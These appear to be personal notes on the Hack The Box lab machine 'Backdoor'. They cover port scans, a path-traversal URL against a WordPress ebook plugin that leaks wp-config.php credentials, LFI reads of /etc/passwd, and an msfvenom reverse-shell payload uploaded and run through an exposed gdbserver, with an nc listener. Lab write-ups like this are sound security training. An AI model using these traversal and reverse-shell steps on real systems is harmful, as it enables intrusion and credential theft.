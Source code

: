 Box info:
linux
IP 10.10.11.125
see ![wappalyzer](Screenshots/bakdoor_wappa.png)

nmap::
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
|_http-generator: WordPress 5.8.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

-sU::
Not shown: 992 closed udp ports (port-unreach)
PORT      STATE         SERVICE         VERSION
514/udp   open|filtered syslog
1056/udp  open|filtered vfo
18255/udp open|filtered unknown
19165/udp open|filtered unknown
19695/udp open|filtered unknown
21104/udp open|filtered unknown
32777/udp open|filtered sometimes-rpc18
58075/udp open|filtered unknown

`rustscan -a backdoor.htb -u 2500::`
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
1337/tcp open  waste   syn-ack Waste?

`gobuster::`
+index.php, /wp-login.php, wp-content/uploads/,
/wp-content/plugins/akismet - no permission
/wp-content/plugins - "ebook-download && hello.php" see ![dir_traversal](Screenshots/backdoor-ebook-dir-traversal.png)
`whatweb backdoor.htb::`
```
http://backdoor.htb [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], Email[wordpress@example.com], HTML5,
HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.125], JQuery[3.6.0], MetaGenerator[WordPress 5.8.1],
PoweredBy[WordPress], Script, Title[Backdoor &#8211; Real-Life], UncommonHeaders[link], WordPress[5.8.1]
```

Attempts::
WordPress Plugin Akismet - Multiple Cross-Site Scripting Vulnerabilities | php/webapps/37902.php
ebook-download exploit:: [CVE](https://www.exploit-db.com/exploits/39575) see ![traverse](Screenshots/backdoor_POC.png)
`backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php`
```
wp-config.php:: 
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );
```

##**LFISuite**##

```
python2 lfisuite:: 
+ 1 -> exploiter 
+ 9 -> Auto-hack
+ [*] Enter the URL you want to try to hack -> http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
+ http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/etc/passwd
```
send to burp:: XYZ=/etc/passwd
+ /proc/PID/cmdline = displays which ever process is running on commandline:: Brute force PID number.
+ Burp - intruder - upload numberlist::
+ Response#:: 868:: See ![](Screenshots/backdoor_gdbserver_found.png)

##**gdbserver exploit::##**
gdbserver 1337:
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.13 LPORT=9999 PrependFork=true -f elf -o binary.elf
chmod +x binary.elf
gdb binary.elf
gdb>target extended-remote 10.10.11.125:1337 #remote gdb target
gdb>remote put binary.elf binary.elf #upload binary.elf
gdb>set remote exec-file /home/user/binary.elf #remote exe. file
gdb>run
set up listener:: nc -lvnp 9999
```
see ![serve_elf](Screenshots/backdoor_gdb_serve_elf.png)
see [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-remote-gdbserver) 
user:: f8424547e0a469bd46d72cda45ff861f

##**Linpeas.sh::**##
+ -rwsr-sr-x 1 daemon daemon 55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
+ -rwsr-xr-x 1 root root 163K Jan 19  2021 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable  
+Files with capabilities (limited to 50):
  /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
  /usr/bin/ping = cap_net_raw+ep
  /usr/bin/mtr-packet = cap_net_raw+ep
  /usr/bin/traceroute6.iputils = cap_net_raw+ep

TODO:: Capablities && possible exploit w/ sudo? GTFObins?

https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit
https://vulmon.com/vulnerabilitydetails?qid=CVE-2002-1614

[Linux Filesystem Hierarchy](https://tldp.org/LDP/Linux-Filesystem-Hierarchy/html/proc.html)
[hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-remote-gdbserver)
[LFISuite](https://github.com/D35m0nd142/LFISuite)
[walkthrough](https://infosecwriteups.com/backdoor-hackthebox-walkthrough-6e4e8b483db1)